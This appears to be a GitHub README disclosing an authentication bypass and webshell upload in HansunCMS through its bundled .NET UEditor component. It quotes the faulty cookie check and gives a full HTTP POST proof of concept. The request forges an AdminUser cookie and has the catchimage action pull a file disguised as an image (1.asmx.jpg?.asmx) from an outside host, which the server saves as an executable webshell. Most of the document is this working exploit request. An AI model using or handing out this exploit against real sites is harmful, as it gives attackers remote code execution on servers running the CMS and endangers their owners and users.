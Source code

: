 # hansuncmswebshell 

hansuncms  Authentication Bypass and File Upload

hansuncms [](https://www.68team.com/)
more like  CNVD-2017-20077  
hansuncms have net 1.4.3 ueditor and Authentication Bypass
<br>some code<br>
![code](https://github.com/MorStardust/hansuncmswebshell/blob/main/code.png)
 <br>if (context.Request.Cookies["AdminUser"] != null || context.Request.Cookies["AdminUser"]["SysUser"] != "")<br>

cookies have AdminUser not null can use ueditor upload webshell

poc

<br>POST /ueditor/net/controller.ashx?action=catchimage HTTP/1.1<br>
<br>Host: xxxxxxxxxx<br>
<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0<br>
<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br>
<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>
<br>Accept-Encoding: gzip, deflate<br>
<br>Content-Type: application/x-www-form-urlencoded<br>
<br>Content-Length: 59<br>
<br>Origin: xxxxxx<br>
<br>Connection: close<br>
<br>Referer: http://xxxxxxxx/cms/Login.aspx<br>
<br>Cookie:AdminUser=AdminId=1&AdminUser=1&AdminPwd=1&AdminName=1&Language=30;ASP.NET_SessionId=hlz4zjbvx0dze5haljxdxuuk<br>
<br>Upgrade-Insecure-Requests: 1<br>
<br> <br>
<br>source%5B%5D=http%3A%2F%2Fx.x.x.x%2F1.asmx.jpg%3F.asmx<br>
<br>![poc](https://github.com/MorStardust/hansuncmswebshell/blob/main/poc.png)<br>


